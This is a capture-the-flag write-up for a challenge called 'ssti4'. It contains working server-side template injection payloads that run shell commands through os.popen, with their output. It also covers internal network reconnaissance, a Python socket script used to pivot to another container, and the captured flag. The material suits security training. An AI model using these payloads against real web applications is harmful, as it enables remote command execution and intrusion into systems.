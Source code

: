 # ssti4

## What it is

Same as sst3.

https://stackoverflow.com/a/12341532/12864941
The eviltree.py file is weird it contains html, it can be displayed on the website with:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat eviltree.py').read()|safe}}
```
It shows some github code from (eviltree)[https://github.com/t3l3machus/eviltree]\
Not sure if it is part of the challenge.

There is a docker-compose (see docker-compose.yml) that talks about a service that should be down but isn't.\
Haven't found a way to access it yet.

```dalek.py``` launches the web server and kills children processes every 10 secondes, preventing backdoors.

```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ping -c 1 toto8042').read()}}
PING toto8042 (172.23.0.2): 56 data bytes
64 bytes from 172.23.0.2: icmp_seq=0 ttl=64 time=0.147 ms
--- toto8042 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.147/0.147/0.147/0.000 ms
```

How to see stderr of commands (https://stackoverflow.com/a/637834/12864941):
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ls abc 2>&1 | cat').read()}}
```

nmap, nc, and telnet are not installed.

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ip a').read()}}

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
1342: eth0@if1343: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:15:00:09 brd ff:ff:ff:ff:ff:ff
    inet 172.21.0.9/16 brd 172.21.255.255 scope global eth0
       valid_lft forever preferred_lft forever
1344: eth1@if1345: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:17:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.23.0.3/16 brd 172.23.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

See port_discovery.js
port 4242, 8042, and 69778 are open

(Using ssti)
```
$ curl toto8042:8042
this is not the way this time, goodluck !!
```

used ```python -c "CMD"``` to run python code and get read TCP connection.

https://wiki.python.org/moin/TcpCommunication
```py
import socket

TCP_IP = 'toto8042'
TCP_PORT = 4242
BUFFER_SIZE = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
data = s.recv(BUFFER_SIZE)
s.close()

print(data.decode('utf-8'))
```

flag: ```BFS{doCKErcEpt1On8042}```
